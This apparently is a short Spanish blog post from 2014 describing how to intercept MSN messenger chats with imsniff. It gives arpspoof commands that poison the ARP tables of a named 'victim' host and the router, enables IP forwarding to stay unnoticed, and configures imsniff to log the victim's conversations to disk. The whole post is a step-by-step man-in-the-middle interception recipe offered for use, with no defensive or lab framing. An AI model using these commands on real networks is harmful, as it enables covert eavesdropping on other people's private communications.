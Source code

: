 ```yaml
---
layout: post
title: "imsniff"
date: 2014-01-29 18:31
comments: true
categories: 
---
```

Capturar paquetes relacionados con el protocolo MSN . Su uso pasa por el envenenamiento arp, situando nuestra máquina entre la victima y el router lanzando en varias terminales y sin cerrarlas:

>\# arpspoof -i eth0 -t 192.168.1.15 192.168.1.1 

>\# arpspoof -i eth0 -t 192.168.1.1 192.168.1.15 

Activar forwarding para que los paquetes vayan a su verdadero dueño: 

>\# echo 1 > /proc/sys/net/ipv4/ip_forward 

Crear una carpeta donde guardar los datos: 

>$ mkdir snifadas 

Modificar el archivo de configuración a partir de la  propia documentación :: 

>\# cp /usr/share/doc/imsniff/examples/imsniff.conf.sample /etc/imsniff.conf 

>\# nano /etc/imsniff.conf 

daemonize = 0 

promisc = 0 

verbose = 2 

chatdir = /home/USER/snifadas/chats 

debugdir = /home/USER/snifadas/debug 

interface eth0 

Los directorios "chats" y "debug" los crea la misma aplicación. 

Lanzar el sniffer de conversaciones msn: 

>\# imsniff

